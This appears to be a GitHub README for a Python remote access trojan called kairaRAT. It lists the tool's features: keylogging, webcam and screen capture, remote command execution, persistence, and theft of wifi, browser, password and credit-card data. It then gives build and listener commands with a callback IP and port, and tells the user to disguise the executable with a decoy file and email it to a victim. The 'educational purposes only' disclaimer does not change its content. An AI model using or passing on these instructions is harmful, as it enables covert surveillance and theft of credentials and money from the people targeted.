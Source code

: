 # kairaRAT
kairaRAT is a remote access trojan tool built with python.

  [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)

![zibib7](https://github.com/st4inl3s5/kairaRAT/assets/68844502/2382d2d6-99ab-4bd9-a694-f9a8adabcaea)

## Features

+ File/directory managing (delete, rename, create, change etc.)

+ Download files from victim's computer.

+ Executing command on windows command prompt.

+ Taking screenshots from victim's computer.

+ Taking victim's camera snapshots.

+ Keylogger.

+ Persistence(hides trojan to registry and copies itself.)

+ Taking wifi names and passwords.

+ Connection without disconnection.

+ Can be merged with an arbitrary file.

+ Automatic build mode.

+ Taking browser saved cookies, passwords and credit cards.

## EDUCATIONAL PURPOSES ONLY.

#### I am not responsible in bad uses of kairaRAT.kairaRAT is made for security researchers.Don't use it for illegal purposes.

## SETUP

You need 2 OS.1)Unix(You can use kali linux) OS 2)Windows OS.Unix for listening connections and managing connections.Windows for building .exe executable file.To make setup, execute the following command on both of them :

     pip install -r requirements.txt

## USAGE

  1. If you want to put icon for the trojan, go to internet and find a image file.Then convert this image file to icon file(with .ico extension) and save this icon to your windows.And if you want to merge a file with trojan too, go to internet and find a merge file(this can be .docx, .png, .jpg etc.) and save to your windows.(This step is optional for social engineering.)
 
  2. In windows, open a command prompt terminal and change the directory to the kairaRAT project directory.Build the executable file with following command :
 
    python main.py build -ip <your_server_ip_address> -p <your_server_port> -i <icon_file(optional)> -m <file_to_merge(optional)> -n <file_name_after_build_finish(optional)>
 
  + Example

        python main.py build -ip 172.28.89.113 -p 4444 -i filetoicon.ico -m hashtypes.png -n kaira.exe
 
  + Example
  
        python main.py build -ip 172.28.89.113 -p 4444 -n kaira.exe
 
![zibab2](https://github.com/st4inl3s5/kairaRAT/assets/68844502/e1a1f0c5-90e7-4db2-8bbc-02c3ada16920)

  3. Wait for building process.When the building finished, you see a message :
 
![zibib3](https://github.com/st4inl3s5/kairaRAT/assets/68844502/1dcc35df-0e02-46ee-82e7-45b03f51a5b5)

  4. Check the builds directory.You must see the executable file.

![zibib4](https://github.com/st4inl3s5/kairaRAT/assets/68844502/8e00b10f-f171-4790-a819-0c9f5f33e70b)

  5. After that, send this executable file to your victim via email etc.And wait for victim's execute the file.When executed, the merge file will be opened(if you configured to) and trojan executing in background.Copies itself, keylogging and makes persistence.
 
![zibib5](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f90e71f9-c883-4600-ae8d-bdb3f8ae0ab6)

  6. Then listen the connections on your linux with the following command :
 
    python3 main.py server -ip <your_server_ip_address> -p <your_server_port>
 
  +  Example

    python3 main.py server -ip 172.28.89.113 -p 4444 
 
  7. When the connection established, a screen like this appear :

![zibib1](https://github.com/st4inl3s5/kairaRAT/assets/68844502/3b84fe44-21e2-43de-ab7a-c3c50d5fb35c)

  8. Type 'help' for command list.The usage all of them is written.
 
  9. You can take camera snapshots, screenshots, victim's keylogs.
 
![zibib6](https://github.com/st4inl3s5/kairaRAT/assets/68844502/f6695aa3-cb72-4b80-83d1-9ff27ec8c681)

__You can contact me on instagram : https://www.instagram.com/arduinocum.py or in telegram : https://t.me/+5XoMhXv4SghhYmE0__
